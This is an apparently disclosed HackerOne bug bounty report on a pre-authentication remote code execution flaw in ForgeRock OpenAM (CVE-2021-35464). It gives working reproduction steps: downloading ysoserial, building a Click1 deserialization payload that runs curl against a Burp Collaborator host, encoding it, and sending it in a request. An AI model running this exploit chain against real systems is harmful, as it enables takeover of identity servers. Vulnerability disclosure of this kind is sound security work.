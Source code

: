 # Pre-auth RCE in ForgeRock OpenAM (CVE-2021-35464)

## Report Details
- **Report ID**: 1249456
- **URL**: https://hackerone.com/reports/1249456
- **State**: Closed
- **Severity**: high
- **Submitted**: 2021-07-01T18:21:48.212Z
- **Disclosed**: 2021-07-29T19:45:04.850Z

## Reporter
- **Username**: fdeleite
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
RCE is possible thanks to unsafe Java deserialization in the Jato framework used by OpenAM.

## Impact

An unauthenticated, 3rd-party attacker or adversary can execute remote code
 
### Supporting Material/References
- https://portswigger.net/research/pre-auth-rce-in-forgerock-openam-cve-2021-35464

## System Host(s)
█████

## Affected Product(s) and Version(s)


## CVE Numbers
CVE-2021-35464

## Steps to Reproduce
## Steps To Reproduce

Target domain: █████

First we need to build the payload:
1. Download this jar file 
``wget https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar``

then 
``java -jar ysoserial-master-SNAPSHOT.jar Click1 "curl https://g0h7qcjzwzpzdh2ar6b5f9x3puvkj9.burpcollaborator.net" | (echo -ne \\x00 && cat) | base64 | tr '/+' '_-' | tr -d '=' | tr -d '\n' > payload.txt`` 

You need to change the burp Collaborator id to test it properly. 

The payload is now saved in the payload.txt file. 

Now we need to use the following request:

```
GET /██████████=XYZ HTTP/1.1
Host: 127.0.0.1
```
Replace **XYZ** by the payload saved into the payload.txt file. 

The response

```
HTTP/1.1 302 302
Date: Thu, 01 Jul 2021 18:11:52 GMT
Server: Apache
Set-Cookie: session=expiry=1625163712945691;Max-Age=600;path=/;HttpOnly;Secure;
X-Frame-Options: SAMEORIGIN
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
Content-Security-Policy: default-src 'unsafe-inline' 'self'; script-src 'unsafe-eval' 'unsafe-inline' 'self' https://██████████; img-src 'self' https://████████
Cache-Control: no-cache, private
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
Cache-Control: private
Location: https://127.0.0.1:443/sso/base/AMInvalidURL
Content-Length: 0
X-XSS-Protection: 1; mode=block

```
The HTTP Request sent the collaborator :

█████

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
